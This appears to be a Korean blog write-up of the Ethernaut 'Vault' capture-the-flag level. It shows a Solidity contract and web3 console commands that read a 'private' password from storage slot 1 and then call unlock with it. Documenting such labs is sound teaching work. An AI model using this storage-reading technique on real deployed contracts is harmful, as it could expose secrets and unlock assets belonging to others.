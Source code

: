 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 8) Vault
date: '2022-01-10 19:18:00'
author: 한성원
tags: ethernaut Vault vulnerability
categories: 취약점분석
---
```



# 👋 Vault
__Difficulty 3/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- vault를 unlock하면 승리한다.
- locked 변수를 false로 만들기

- - -

## 코드 분석
분석은 주석에!

```solidity
contract Vault {

    bool public locked;
    
    // private으로 정의된 비밀번호
    bytes32 private password;

    // constructor: password를 parameter로 받음
    constructor(bytes32 _password) public {
        // valut의 lock을 건다
        locked = true;
        // parameter password를 private 변수에 저장
        password = _password;
    }

    // 올바른 비밀번호를 입력하면 vault를 unlock할 수 있는 function
    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```
- - -

## 풀이
이 문제에서 우리의 목표는 vault를 unlock하는 것이다.

위에 코드에서 보다싶이 우리는 올바른 비밀 번호를 가지고 unlock()을 실행시키면 vault를 unlock 할 수 있다는 것을 알 수 있다. 여기서 유심히 봐야할 점은 password가 smart contract에 저장되어 있다는 점이다. 블록체인 특성상 private으로 정의되었어도 외부에서 정보를 확인할 수 있다.

모든 코드는 console창에서 이루어진다. 
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
// 우리는 web3 library를 사용한다.
// getStorageAt API를 사용하여 storage의 slot 1에 저장되어 있는 32 bytes의 data를 가져온다.
// 결과 값: 0x412076657279207374726f6e67207365637265742070617373776f7264203a29
await web3.eth.getStorageAt(instance, 1)

// 얻은 password와 함꼐 unlock()을 실행시키면 vault가 unlock 된다!
await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")

// 얻은 password를 우리가 읽을 수 있게 바꾸고 싶다면?
// 결과 값: 'A very strong secret password :)'
await web3.utils.toAscii("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")

```

Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -

## 마무리
이 문제를 완벽하게 이해하기 위해서는 slot, 즉 storage에 대한 깊은 이해가 필요하다. slot은 2^256개가 존재하며 각각 32 bytes를 store할 수 있다. variable type에 따라 하나의 slot에 여러개의 변수가 저장될 수 있으며 slot의 우측에서부터 저장된다.

- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- selfdestruct 취약점: https://holyhansss.github.io/vulnerability/selfdestruct/selfdestruct/

```toc

```